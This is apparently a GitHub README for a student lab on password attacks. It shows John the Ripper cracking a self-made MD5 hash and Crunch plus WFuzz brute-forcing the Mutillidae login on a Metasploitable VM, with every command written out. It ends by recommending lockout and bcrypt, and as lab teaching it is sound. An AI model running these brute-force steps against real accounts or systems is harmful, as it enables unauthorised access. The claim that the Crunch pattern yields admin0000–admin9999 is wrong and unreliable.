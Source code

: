 # 🔐 Project 3: Brute Force & Dictionary Attacks

---

## 📘 About the Project

This project explores the execution and impact of **brute force** and **dictionary attacks**, two common password-cracking techniques used in cybersecurity. Used real penetration testing tools to simulate these attacks and highlight the risks of weak passwords and poor system configuration.

Focus was on:
- Using **John the Ripper** to crack hashed passwords
- Employing **Crunch** to generate password lists
- Using **WFuzz** to brute-force a login form on a vulnerable web application

---

## 🧪 Tools Used

| Tool            | Purpose |
|------------------|---------|
| **John the Ripper** | Cracking password hashes using brute force and dictionary attacks |
| **Crunch** | Generating custom password lists with user-defined patterns |
| **WFuzz** | Fuzzing login forms with password lists to find valid credentials |

---

## 🔍 Part 1: Cracking Passwords with John the Ripper

### 🛠️ Environment Setup
```bash
sudo apt update
sudo apt install john
```
### 🔑 Steps
Generate a hashed password

``` bash
Copy
Edit
openssl passwd -1 password1234
```
Create a simulated /etc/shadow file
shadow1a.txt contains the MD5-hashed password

Create a simulated /etc/passwd file
passwd1a.txt contains user info

Merge files with unshadow

```bash
Copy
Edit
unshadow passwd1a.txt shadow1a.txt > hashes1a.txt
Create a dictionary wordlist

```

``` bash
Copy
Edit
echo -e "123456\npassword\nroot\nadmin\npassword123\npassword1234" > testlist1a.txt
Run John the Ripper

```

``` bash
Copy
Edit
john --format=md5crypt --wordlist=testlist1a.txt hashes1a.txt
Display cracked password(s)

```

``` bash
Copy
Edit
john --show hashes1a.txt

```

✅ John successfully cracked the hash for password1234.

### 🔍 Part 2: Brute Force with WFuzz & Crunch
🛠️ Environment Setup
``` bash
Copy
Edit
sudo apt update
sudo apt install wfuzz
sudo apt install crunch

``` 
### 🌐 Target
Vulnerable web app: Mutillidae on Metasploitable VM

Login form URL:
http://192.168.121.131/mutillidae/index.php?page=login.php

### 🔐 Step-by-Step
### 1. Generate a password list with Crunch
``` bash
Copy
Edit
crunch 9 9 -t admin@@@@ > password.lst
Generates combinations like admin0000 to admin9999

```

We inserted the real password adminpass near the top for demo purposes

### 2. Run WFuzz attack
```bash
Copy
Edit
wfuzz -z file,/root/password.lst -d "username=admin&password=FUZZ&login-php-submit-button=Login" http://192.168.121.131/mutillidae/index.php?page=login.php
WFuzz iterates through all passwords in password.lst
```
Correct password adminpass was successfully identified

### 3. Verify Login
Visited the login URL in a browser

``` 
Used:

Username: admin

Password: adminpass

```

### ✅ Login was successful

### 🔚 Conclusion
Brute Force attacks try all possible combinations; Dictionary attacks are faster using pre-built lists.

Tools like Crunch, John the Ripper, and WFuzz are powerful for demonstrating password security flaws.

This project emphasizes the importance of:

Strong password policies

Rate limiting and account lockout features

Using hashed and salted passwords with modern algorithms (e.g., bcrypt)
